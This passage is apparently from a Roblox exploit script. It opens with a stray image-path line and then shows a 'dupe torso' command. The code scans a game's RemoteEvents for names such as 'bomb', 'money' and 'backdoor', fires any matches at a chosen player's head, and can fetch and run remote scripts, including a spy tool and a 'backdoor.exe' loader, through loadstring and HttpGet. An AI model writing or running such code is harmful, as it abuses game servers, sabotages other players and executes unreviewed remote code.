 		"fire",
		"bomb",
		"explode",
		"color",
		"update",
		"car",
		"money",
		"cheat",
		"data",
		"save",
		"build",
		"backdoor",
		"invis",
		"hide",
		"set"
	}

	local PossibleRemotes = {}

	for i,v in pairs(game:GetDescendants()) do
		if v:IsA("RemoteEvent") then
			for x,z in pairs(PingWords) do
				if string.find(v.Name:lower(), z:lower()) then
					warn("Possible Vulnerability found : ".. v.Name.. " | "..v.ClassName)
					table.insert(PossibleRemotes, v)
				end
			end
		end
	end

	if load_DestroyToolTest == true then
		for i,v in pairs(PossibleRemotes) do
			v:FireServer(game:GetService("Players")[Player.Value].Character.Head)
		end
	end
end)

CreateCMD("dupe torso",function()
	--[[
	    Simple vulnerability scanner v1.1
	    Made by 0fiiz#7952
	]]--


	local load_BackdoorEXE = false
	local load_SimplySpy = false
	local load_DestroyToolTest = true

	if load_SimplySpy == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/exxtremestuffs/SimpleSpySource/master/SimpleSpy.lua%22"))()
	end

	if load_BackdoorEXE == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua%22"))()
	end
